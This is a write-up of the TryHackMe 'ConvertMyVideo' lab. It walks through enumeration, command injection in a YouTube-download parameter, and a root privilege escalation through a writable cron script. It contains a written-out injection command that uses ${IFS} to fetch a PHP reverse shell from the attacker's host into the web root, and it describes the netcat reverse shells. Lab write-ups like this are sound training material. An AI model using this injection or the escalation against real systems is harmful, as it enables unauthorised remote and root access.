# ConvertMyVideo TryHackMe Writeup
### Level: `Medium` | OS: `Linux`


## Scanning
We launch nmap with scripts and software versions on all ports.



## Enumeration
We access the website, we see that it is a simple application that collects the ID of a youtube video.



We use **dirsearch** and list an interesting directory.



We entry the *"/*******/"* directory and list a basic authentication panel.



We continue reviewing the variable *"yt_url"* of the web application, investigating by Google I find this [github:](https://github.com/ytdl-org/youtube-dl/) where it shows us useful commands.

#### --version



The **"--exec"** command not working....It seems that there are problems with the coding, looking for a way to solve the problem I discovered a way to be able to execute the **"ls"** command without problems.



Okay, so let's use the payload so we can read the first flag.




## Exploitation
We create a pentestmonkey reverse shell, raise a python server, set a netcat listening and use the following command to obtain a connection on the victim machine.



```bash
<`wget${IFS}10.11.30.149:8000/m3.php${IFS}-O${IFS}/var/www/html/m3.php`
```

#### Reverse shell



Once we have access to the inside of the machine, we read the file *".htpasswd"* and crack the hash with the dictionary **"rockyou.txt"**.



#### Cracking with JTR



## Privilege Escalation
After launching several reconnaissance scripts, I end up analyzing the processes that are being executed by the system on a scheduled basis with **pspy** tool and we detect a *"clean.sh"* script running with *"UID=0" (root)*.



We check the permissions we have on the file, we see that we can write to it, so we insert a line to invoke a reverse shell with **netcat** and we put another **netcat** listening in our Kali.



We wait a few minutes for the script to run with our malicious code and we will have an interactive connection as root.



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
